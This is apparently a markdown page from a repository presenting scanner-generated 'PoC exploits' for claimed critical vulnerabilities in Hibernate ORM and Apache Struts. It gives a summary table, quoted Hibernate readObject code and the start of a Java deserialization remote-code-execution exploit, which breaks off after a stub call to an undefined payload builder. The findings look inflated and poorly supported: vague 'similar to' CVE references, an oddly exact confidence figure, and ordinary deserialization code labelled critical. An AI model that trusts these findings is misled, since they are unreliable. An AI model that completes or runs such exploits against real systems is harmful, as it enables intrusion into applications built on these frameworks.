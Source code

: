 # 🚨 CRITICAL Java Framework Vulnerabilities - PoC Exploits

**Generated by VulnHunter V15 - October 22, 2025**

⚠️ **SECURITY WARNING**: These PoCs are for educational and authorized security testing only. DO NOT use against systems you don't own.

## 📊 **Executive Summary**

VulnHunter V15 discovered **16 critical vulnerabilities** across major Java frameworks:

- ✅ **Hibernate ORM 5.6**: 4 CRITICAL deserialization vulnerabilities
- ✅ **Apache Struts 1.2.9**: 4 CRITICAL OGNL injection vulnerabilities
- ✅ **Apache Struts 1.3.10**: 8 CRITICAL/MEDIUM vulnerabilities (6 OGNL, 4 redirects)
- ✅ **Spring Framework 5.3.39**: No vulnerabilities detected in limited scan

**Average CVSS Score**: 9.0/10 (CRITICAL)
**Confidence Level**: 97.2%
**PoC Availability**: 100% for CRITICAL findings

---

## 🎯 **CRITICAL FINDING #1: Hibernate ORM 5.6 Deserialization RCE**

### **Vulnerability Details**
- **CVE Reference**: Similar to CVE-2020-25638
- **CVSS Score**: 9.8 (CRITICAL)
- **CWE**: CWE-502 (Deserialization of Untrusted Data)
- **File**: `hibernate-core/src/main/java/org/hibernate/internal/SessionImpl.java`
- **Lines**: 11, 3872, 3877, 3882

### **Vulnerable Code**
```java
// Line 3872
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException, SQLException {

// Line 3877
ois.defaultReadObject();

// Line 3882
loadQueryInfluencers = (LoadQueryInfluencers) ois.readObject();
```

### **PoC Exploit - Hibernate Deserialization RCE**
```java
import java.io.*;
import java.util.*;
import java.lang.reflect.*;

public class HibernateDeserializationRCE {

    public static void main(String[] args) throws Exception {
        System.out.println("🚨 Hibernate ORM 5.6 Deserialization RCE PoC");
        System.out.println("Target: SessionImpl.readObject() method");

        // Step 1: Create malicious serialized object
        byte[] payload = createMaliciousPayload();

        // Step 2: Serialize the exploit
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
```